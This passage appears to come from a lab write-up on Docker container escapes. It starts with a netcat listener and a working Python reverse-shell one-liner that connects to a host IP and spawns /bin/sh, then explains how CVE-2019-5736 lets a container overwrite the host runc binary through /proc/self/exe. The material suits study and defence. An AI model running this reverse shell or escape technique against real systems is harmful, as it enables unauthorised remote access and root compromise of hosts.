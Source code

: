 ```python

```

4. On host machine start _netcat_ listener:

```
nc -lvnp 4242

```

5. On victim machine start reverse shell:

```
python -c 'import socket,os,pty;s=socket.socket();s.connect(("192.168.65.2",4242));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'

```

CVE-2019-5736
===

We have Ubuntu-based container, which we should use to gain root access on host.
Also we have installed docker-ce and docker-ce-cli with 18.09.1 stable version, and containerd with 1.2.0 stable version.

We suppose to overwrite the host runc binary (and consequently obtain host root access) by leveraging the ability to execute a command as root within an existing container, to which we previously had write access, that can be attached with docker exec. This occurs because of file-descriptor mishandling, related to /proc/self/exe. (CVE-2019-5736).


How does the exploit work?
---
The vulnerability allows a malicious container to (with minimal user interaction) overwrite the host runc binary and thus gain root-level code execution on the host. The level of user interaction is being able to run any command. 
This scenario requires runC to spin up a new process in a container. runC is tasked with running a user-defined binary in the container. In Docker, this binary is either the image’s entry point when starting a new container, or docker exec’s argument when attaching to an existing container.
When this user binary is run, it must already be confined and restricted inside the container, or it can jeopardize the host. In order to accomplish that, runC creates a ‘runC init’ subprocess which places all needed restrictions on itself (such as entering or setting up namespaces) and effectively places itself in the container. Then, the runC init process, now in the container, calls the execve syscall to overwrite itself with the user requested binary.

This is the method used by runC both for creating new containers and for attaching a process to an existing container.

The researchers who revealed the vulnerability discovered that an attacker can trick runC into executing itself by asking it to run /proc/self/exe, which is a symbolic link to the runC binary on the host.

An attacker with root access in the container can then use /proc/[runc-pid]/exe as a reference to the runC binary on the host and overwrite it. Root access in the container is required to perform this attack as the runC binary is owned by root.
The next time runC is executed, the attacker will achieve code execution on the host. Since runC is normally run as root (e.g. by the Docker daemon), the attacker will gain root access on the host.
